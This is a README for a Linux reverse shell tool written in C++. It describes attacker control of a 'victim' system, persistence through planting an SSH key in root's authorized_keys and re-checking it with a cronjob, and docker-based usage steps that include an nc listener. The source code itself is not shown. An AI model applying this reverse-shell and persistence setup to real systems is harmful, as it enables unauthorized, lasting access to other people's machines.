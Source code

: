 # SRSFL
Simple Reverse Shell For Linux written is a minimalist yet powerful tool designed for remote access to Linux systems. Written in C++.

* Reverse Shell: SRSFL enables remote access to a target Linux system by establishing a reverse shell connection. This allows an attacker to control the victim system remotely.

* Persistence: SRSFL ensures persistence on the target system by adding an SSH key to the root user's authorized_keys file and checking its existence every minute using a cronjob. This ensures that even if the key is deleted, the attacker can regain access without the need for manual intervention.

### Setup:

(`docker-compose up -d`)

### Instruction:

(`./setup.sh`) to insert attacker ssh key and ip.

(`make`) to compile the reverse shell binary.

(`docker exec -it attacker_container /bin/bash`) to get shell on attack container.


(`nc -lvp 1234`) to enable the listener.

(`docker exec -it victim_container /bin/bash`) to get shell on victim container.

(`cd code; ./reverseShell`) - to run reverse shell.
